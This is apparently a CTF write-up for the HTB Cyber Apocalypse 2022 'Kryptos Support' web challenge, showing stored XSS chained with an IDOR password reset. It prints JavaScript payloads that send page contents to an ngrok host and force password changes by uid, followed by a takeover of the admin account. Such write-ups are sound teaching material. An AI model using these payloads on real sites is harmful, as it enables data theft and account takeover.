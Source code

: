 ```yaml
---
title: "Kryptos Support challenge Writeup"
author: "0xMesbaha"
header:
  teaser: "/assets/images/CTFs/Flag.png"
tags: ["CTF", "XSS", "IDOR"]
date: 2022-05-19T12:49:18+34:08
categories:
  - Web Exploitation 
ribbon: red
toc: true
draft: false
---
```


HTB Cyber Apocalypse CTF 2022 was held from the 14th of May Until the 19th of the month , and we have participated under the team 0xcha0s, we have managed to solve multiple challenges. this challenge was ranked easy

<!--more-->

|           |                                                                                      |
| --------- | ------------------------------------------------------------------------------------ |
| CTF name  | [Cyber Apocalypse CTF 2022](https://www.hackthebox.com/events/cyber-apocalypse-2022) |
| challenge | Kryptos Support                                                                      |
| category  | web                                                                                  |
| about     | XSS , IDOR                                                                           |
| team      | [0xCha0s](https://ctftime.org/team/168238)                                           |

## Discovery :

This easy challenge are introduced with this page , as we see just add a report issue interface:

![image](/assets/images/CTFs/Kryptos-Support/20220517090100.png)

There is also end point `/login` But there is no `/signup` or `register`

![image](/assets/images/CTFs/Kryptos-Support/20220517090146.png)

and First thing i have tried is to get xss , i used xsshunter as a proof only latter on will use ngrok http server :

```html
<script src=https://XXXXXXX.xss.ht></script>
```

and we get a hit :

![image](/assets/images/CTFs/Kryptos-Support/20220517090357.png)

we know from the report the following :

- vulnerable page `http://127.0.0.1:1337/tickets/new`
- the session used is JWT based: `session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI3NzEwMTh9.iQshqI16zGjE3tUOVQHsqLKaZofC8JyFN4CWhHH6lWg`
- and from the DOM we can see there are other internal end points which are `/settings` and `/logout`

Decoding the cookie we got the username and the uid

![image](/assets/images/CTFs/Kryptos-Support/20220517090628.png)

## Attacking :

I wanted to get an overview about what functions are there in the `/settings` page. so we craft this payload :

```javascript
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://127.0.0.1:1337/settings");
xhr.onload = function () {
  var out = btoa(xhr.responseText);
  var exfil = new XMLHttpRequest();
  exfil.open("GET", "http://3bbd-156-194-235-84.ngrok.io/?out=" + out);
  exfil.send();
};
xhr.send();
```

and will use this payload at the report page to request the script we host :

```html
<script src="http://3bbd-156-194-235-84.ngrok.io/get.js"></script>
```

![image](/assets/images/CTFs/Kryptos-Support/20220517091750.png)

decoding it :

![image](/assets/images/CTFs/Kryptos-Support/20220517091900.png)

will notice the page has the update password function also , we can check the Js code under `/static/js/settings.js` and it is publicly exposed :

```Javascript
$(document).ready(function() {
	$("#update-btn").on('click', updatePassword);

});

async function updatePassword() {

	$('#update-btn').prop('disabled', true);

	let card = $("#resp-msg");
    card.text('Updating password, please wait');
	card.show();

	let uid = $("#uid").val();
	let password1 = $("#password1").val();
	let password2 = $("#password2").val();

	if ($.trim(password1) === '' || password1 !== password2) {
		$('#update-btn').prop('disabled', false);
		card.text("Please type-in the same password!");
		card.show();
		return;
	}

	await fetch(`/api/users/update`, {
			method: 'POST',
			headers: {
				'Content-Type': 'application/json',
			},
			body: JSON.stringify({password: password1, uid}),
		})
		.then((response) => response.json()
			.then((resp) => {
				card.text(resp.message);
				card.show();
			}))
		.catch((error) => {
			card.text(error);
			card.show();
		});

    $('#update-btn').prop('disabled', false);
}
```

The catch here is that it doesn't check the old password , just providing the uid and the new password will reset the password. we can confirm with this script which will reset the password of the moderator user

```javascript
var xhr = new XMLHttpRequest();
var theUrl = "http://127.0.0.1:1337/api/users/update";
xhr.open("POST", theUrl);
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send(JSON.stringify({ password: "testme123", uid: "100" }));
```

And we have successfully logged in with the new password and the username `moderator` :

![image](/assets/images/CTFs/Kryptos-Support/20220517092343.png)

Now why not reset the password for the user **`admin`** too ? , as it doesn't check on the `uid` , we can run intruder to fuzz the admin uid But for our luck it is **`1`** . from the moderator account we can reset the password without the need to use javascript code and ngrok hosting it

![image](/assets/images/CTFs/Kryptos-Support/20220517093121.png)

and now we can login with the admin user

![image](/assets/images/CTFs/Kryptos-Support/20220517093228.png)
